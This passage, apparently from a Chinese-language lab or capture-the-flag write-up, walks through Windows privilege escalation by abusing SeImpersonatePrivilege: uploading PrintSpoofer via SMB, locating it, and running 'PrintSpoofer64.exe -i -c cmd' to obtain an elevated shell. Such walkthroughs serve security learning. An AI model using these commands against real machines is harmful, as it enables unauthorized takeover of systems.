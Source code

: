 由上图可知 当前用户似乎启用了 SeImpersonatePrivilege 令牌权限，这意味着我们可以使用令牌模拟来提升权限；接下来我们需要在目标机上执行一个漏洞利用程序--下载[PrintSpoofer.exe](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)，并将该 exe 文件上传到目标机（可以通过 SMB 服务上传文件）。

[![](assets/1706771526-8ca8dcd796c79a79dd111c6c5a515f19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223355-6e1cde34-beb3-1.png)

```bash
dir /s /b c:\ | find "PrintSpoofer64.exe"
```

全局搜索一下刚刚上传的这个 exe 的位置

```bash
cd c:\inetpub\wwwroot\nt4wrksv\
PrintSpoofer64.exe -i -c cmd
```

[![](assets/1706771526-711388814998c7e20bd1f9f36834bab0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129223400-71429234-beb3-1.png)

成功提权
